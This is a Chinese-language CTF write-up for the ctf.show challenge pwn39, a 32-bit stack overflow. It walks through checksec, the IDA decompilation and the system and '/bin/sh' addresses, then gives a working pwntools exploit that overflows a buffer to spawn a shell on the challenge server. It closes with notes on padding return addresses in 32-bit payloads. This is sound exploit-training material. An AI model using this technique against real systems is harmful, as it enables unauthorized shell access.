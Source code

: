 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn39
```

```
tasike@tasike-VM:~/Desktop$ file pwn39
pwn39: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ed2ae81287a176fcf37eb26d4b8b706a15698fd8, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn39
[*] '/home/tasike/Desktop/pwn39'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

堆栈不可执行

`ida`查看：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts(asc_804876C);
  puts(asc_80487E0);
  puts(asc_804885C);
  puts(asc_80488E8);
  puts(asc_8048978);
  puts(asc_80489FC);
  puts(asc_8048A90);
  puts("    * *************************************                           ");
  puts(aClassifyCtfsho);
  puts("    * Type  : Stack_Overflow                                          ");
  puts("    * Site  : https://ctf.show/                                       ");
  puts("    * Hint  : It has system and '/bin/sh',but they don't work together");
  puts("    * *************************************                           ");
  puts("Just easy ret2text&&32bit");
  ctfshow();
  puts("\nExit");
  return 0;
}
```

`ctfshow`函数：

```c
ssize_t ctfshow()
{
  char buf[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, buf, 0x32u);
}
```

`buf`与`ebp`距离为`0x12`

没有发现后门函数，但是发现`_system`函数：
```c
// attributes: thunk
int system(const char *command)
{
  return system(command);
}
```

`Fn +  Shift + F12`查看字符串：

```
.rodata:08048750	00000008	C	/bin/sh
```

编写`attack39.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28242)
system = 0x080483A0
binsh = 0x08048750
payload = cyclic(0x12 + 0x4) + p32(system) + p32(0) + p32(binsh)
r.sendline(payload)
r.interactive()
```

> 参数顺序
> 32位中先写函数，再写参数【参数可能是返回值，如调用system，需要多加个参数作返回值】【8月10日更改，做了这么多题，发现32bit的payload中，最后一个函数都需要有返回值】【8月12日补充，又做一些题，进一步明白，每个函数都有返回值，而我们对函数返回值不感兴趣【比如一些函数执行成功会返回1】只需要有个位置充当一下，而之前对于多个函数的解释也进一步得以优化，其应该是需要返回值的，只不过位置正好被其他的东西给占据了，如pop_这些用于给参数位置的rop链给一举两得给占据了，也就是说，即使是最后一个函数有参数，也不用在单独写一个p32(0)来填充返回值的位置，因为pop_已经将这件事给做了 ，例如payload = cyclic(0x2c + 4) + p32(func1) + p32(func2) + p32(pop_ebx) + p32(0xACACACAC) + p32(flag) + p32(pop_ebx) + p32(0xBDBDBDBD)


